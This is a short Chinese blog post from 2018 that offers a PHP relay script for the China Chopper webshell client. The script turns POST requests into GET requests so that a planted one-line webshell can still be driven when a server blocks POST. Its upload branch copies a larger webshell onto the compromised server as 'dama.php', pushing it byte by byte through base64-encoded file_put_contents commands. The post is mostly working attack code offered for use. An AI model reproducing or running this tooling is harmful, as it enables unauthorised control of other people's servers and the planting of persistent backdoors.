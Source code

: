 ```yaml
---
title: "PHP 菜刀中转脚本"
date: 2018-01-31T00:00:00+08:00
draft: false
tags: ['php']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


有的服务器 管理员脑抽把 POST 方法禁止

而菜刀是利用 POST 来发送执行代码的

只要把 POST 转换成 GET 就可以正常链接了

<!--more-->

```
<?php
ini_set('max_execution_time', '100'); // 超时时间

$url = 'http://127.0.0.1/cmd.php'; // 一句话地址
$pass = 'cmd'; // 密码
$data = $_POST['cmd']; // 中转密码

echo file_get_contents($url.'?'.$pass.'='.$data);

if(isset($_GET['upload'])){
	$f = fopen('darkshell.php','r'); // 上传文件
	while (!feof($f)){
		$content = base64_encode(fgetc($f));
		$exec = "file_put_contents('dama.php',base64_decode('$content'),FILE_APPEND);";
		file_get_contents($url.'?'.$pass.'='.$exec);
	}
	echo 'File uploaded successfully';
}
?>